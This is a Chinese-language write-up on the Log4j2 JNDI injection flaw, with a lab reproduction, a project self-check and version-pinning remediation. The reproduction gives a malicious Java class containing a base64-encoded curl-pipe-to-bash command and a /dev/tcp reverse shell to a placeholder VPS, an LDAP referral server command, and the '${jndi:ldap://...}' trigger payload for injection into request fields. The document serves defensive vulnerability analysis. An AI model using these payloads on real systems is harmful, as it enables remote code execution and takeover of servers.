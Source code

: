 ## 漏洞原理

漏洞预警： https://mp.weixin.qq.com/s/WBbAthHY36qY0w9e4UUl4Q

本质上是 log4j 里的 lookup 方法存在 jndi 注入（看图）：

![lookup](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211210091200YOXTYd.jpg)



## 漏洞复现

### 复现原理
log4j的 lookup功能在遇到特定命令时并非只是打印指定的文本而是去执行一些命令 例如

```java
LOGGER.error("${java:os}");
```
输出结果

```
21:22:09.431 [main] ERROR Test - Mac OS X 10.14.6 unknown, architecture: x86_64-64
```
在进入恶意攻击时，攻击原理是借助 JNDI Reference来达到在本地执行远程恶意代码。关于这部分的详细原理可以参考[这篇文章](https://y4er.com/post/attack-java-jndi-rmi-ldap-2/)。

因此实际操作中借助 `LOGGER.error("${jndi:ldap://127.0.0.1:1389/#Exploit}")`;
（使用LOGGER.info等其他级别的日志也可以达到同样的效果）来调用 ldap服务来执行恶意代码。


### 复现步骤
1、准备一个恶意类 

```java
public class Exploit {
    public Exploit() {
    }


    static {
        try {
            //在目标机器开启计算机
            String[] cmd1 = System.getProperty("os.name").toLowerCase().contains("win")
                    ? new String[]{"cmd.exe", "/c", "calc.exe"}
                    : new String[]{"/bin/bash", "-c", "open -a /Applications/Calculator.app"};
            //在目标机器执行shell 因为jvm有可能会过滤防御，对command base64编码
            String[] cmd2 = new String[]{"/bin/bash", "-c", " {echo,Y3VybCBodHRwOi8vcG9jL3Rhc3RlZ29vZA==}|{base64,-d}|{bash,-i}"};
            //一句话木马 借助一台 vps 来拿取服务运行后台的 shell 权限
            String[] cmd3 = new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/<VPS IP>/8888 0>&1"};
            Runtime.getRuntime().exec(cmd1);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        Exploit e = new Exploit();
    }
}

```

这里我们测试恶意命令1，在目标主机打开计算机。

ps:cmd2是一个调用shell的语句；cmd3是一个直接获取目标主机 shell 的恶意木马。后面有时间可以分享恶意攻击过程。

2、将恶意类编译，然后将恶意类放在一个 web 服务的目录中，保证可以访问到

在实际操作中一般直接到恶意类的目录，使用命令`python3 -m http.server 8080`将此文件夹作为目录映射为 web 服务
映射后即可在浏览器访问到此文件，如图：
![web 服务](https://gitee.com/haigeek/picture/raw/master/uPic/dzstrp.png)

3、开启一个 ldap 服务
使用 ldap 服务快速开启工具(开源工具：https://github.com/mbechler/marshalsec)开启一个Ldap 服务
开启命令：
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8080/#Exploit
```
其中#后面填写你的恶意类的类名，它会自动绑定URI
开启后如图

![alt](https://gitee.com/haigeek/picture/raw/master/uPic/jLdiW5.png)


3、借助 log4j的漏洞触发攻击，jndi调用ldap 服务的恶意类并在本地执行

触发类：
```java
public class Test {

    private static final Logger LOGGER= LogManager.getLogger(Test.class);

    public static void main(String[] args) {
        LOGGER.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }

}

```
这里直接模拟了 log4j调用 jndi 场景。

在实际应用中，如果在http的请求头或者请求参数中携带恶意代码，例如在登录名的输入框输入 `${jndi:ldap://127.0.0.1:1389/Exploit}"`，而后端刚好将获取到的参数打印，由于 log4j对 lookup 的调用没有做安全限制，就会触发漏洞。

4、验证攻击是否成功

执行触发代码后，执行结果如下：
成功执行恶意类 Exploit 打开了服务运行机器的计算器

![alt](https://gitee.com/haigeek/picture/raw/master/uPic/x1YQLT.png)

在 Ldap 服务端打印了日志：

![alt](https://gitee.com/haigeek/picture/raw/master/uPic/E8xHcz.png)

可以看到请求执行Exploit类时，Ldap 服务端去我们启动的 web 服务下拿到了Exploit.class ，最终在宿主机完成执行。

## 自查
在本地按照上述步骤开启Ldap服务，在工程的 runtime 模块下执行 Test类即可。

经过测试，我们目前的代码并未受到此刻漏洞的影响。主要原因是我们用的是 SpringBoot 默认的 logback。
而elasticsearch虽然引用了 Log4j2,但是设置了optional为 true 的属性。
![alt](https://gitee.com/haigeek/picture/raw/master/uPic/cWGY15.png)
在最终编译出来的 jar 包中也不存在 log4j-core jar 包（漏洞实现类在 core 包）
![alt](https://gitee.com/haigeek/picture/raw/master/uPic/h6I23z.png)

## 处理方式

虽然我们并未直接引用 core 包，但是存在 log4j-api 包且版本在受影响的范围内，因此我们目前暂时在 parent工程中对log4j的版本做了控制。

```
<log4j2.version>2.15.0</log4j2.version>
```
ps：maven 仓库的2.15.0版本已经是基于2.15.0-rc2编译后的版本，实际测试也是可以规避漏洞的。

